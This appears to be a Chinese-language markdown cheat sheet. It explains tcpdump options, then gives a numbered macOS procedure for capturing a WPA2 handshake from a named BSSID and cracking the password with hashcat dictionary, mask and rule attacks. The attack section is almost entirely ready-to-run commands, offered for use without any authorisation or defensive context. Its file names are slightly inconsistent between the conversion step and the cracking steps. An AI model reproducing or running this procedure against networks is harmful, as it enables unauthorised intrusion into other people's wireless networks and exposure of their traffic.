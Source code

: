# Tcpdump
+ -c [count]
	抓去指定数量的包
+ -i [interface]
	指定要抓包的接口
+ -I 
	设置为监听模式，只支持IEEE 802.11 Wi-Fi 接口，并且只支持一些操作系统
+ -w [file]
	指定将抓包数据写入一个文件而不是打印出来
+ -U
	指定缓存，如果设置了-w，那么抓包数据会立即写入文件，没有指定-w，数据会被缓存然后输出
+ -vvv
	输出更多


### Wifi Mac 帧
<center><img src="pics/wifi-frame.jpg" width="60%"></center>

软件安装：
+ brew install hashcat
+ brew install hcxtools
+ brew install wireshark

1. export BSSID=90:47:3c:31:80:39
2. networksetup -listallhardwareports
3. sudo airport -z
4. sudo airport -c153
5. sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i en0 -w beacon.cap
6. sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
7. mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
8. hcxpcapngtool -o hashfile capture.cap
9. hashcat -m 22000 capture.hccapx wpa2-wordlists/full.txt
10. hashcat -m 22000 -a3 capture.hccapx "?d?d?d?d?d?d?d?d"
11. hashcat -m 22000 hashfile wpa.txt -r Probable-Wordlists/Analysis-Files/ProbWL-547-rule-probable-v2.rule

https://hashcat.net/cap2hashcat/